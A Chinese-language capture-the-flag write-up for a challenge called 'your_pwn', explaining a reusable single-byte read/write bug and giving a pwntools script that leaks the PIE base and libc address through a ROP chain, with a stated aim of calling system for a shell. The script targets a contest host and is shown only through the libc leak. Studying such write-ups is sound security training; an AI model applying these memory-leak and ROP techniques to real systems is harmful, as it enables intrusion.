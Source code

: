 ## your_pwn

可重复利用的单字节读写的漏洞.

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2ap50iza8j20b005m3yi.jpg)

先直接读取栈上的返回地址泄露`pie`基址.
然后构造`ROP`链打印库函数地址泄露`libc`.直接调用`system(binsh);`获得`flag`.

```python
from pwn import *

context.log_level = 'debug'
pop_rdi_ret = 0xd03
pop_rsi_r15_ret = 0xd01
#r = process("./pwn")
r = remote("1b190bf34e999d7f752a35fa9ee0d911.kr-lab.com","57856")

r.recvuntil("name:")
r.sendline("cws")

def get(p):
    i = 0
    ll = 0
    while(1):
        r.recvuntil("index\n")
        r.sendline(str(i + p))
        data = r.recvuntil("value\n")[:-17]
        data = int(data[-2:],16)
        if(i < 8):
            ll += data * (0x100 ** i)
        r.sendline(str(data))
        i += 1
        if(i % 41 == 0):
            r.recvuntil("continue(yes/no)? \n")
            r.sendline("yes")
            return ll

def write(p, x):
    i = 0
    while(1):
        r.recvuntil("index\n")
        r.sendline(str(i + p))
        r.recvuntil("value\n")
        data = 0
        if(i != 40):
            data = (x[i/8] / (0x100 ** (i % 8))) % 0x100
        r.sendline(str(data))
        i += 1
        if(i % 41 == 0):
            r.recvuntil("continue(yes/no)? \n")
            r.sendline("yes")
            return

#ret = get(0x150) - 0x118
#print "ret: " + hex(ret)
pie = get(0x158) - 0xb11
print "pie: " + hex(pie)

write(0x158, [pie + pop_rdi_ret, pie + 0x202020, pie + 0x8B0, pie + 0xb0c, 0, 0, 0, 0])

libc = u64(r.recvuntil("\n")[0:6].ljust(8,'\0')) - 0x06f690
print "libc: " + hex(libc)

```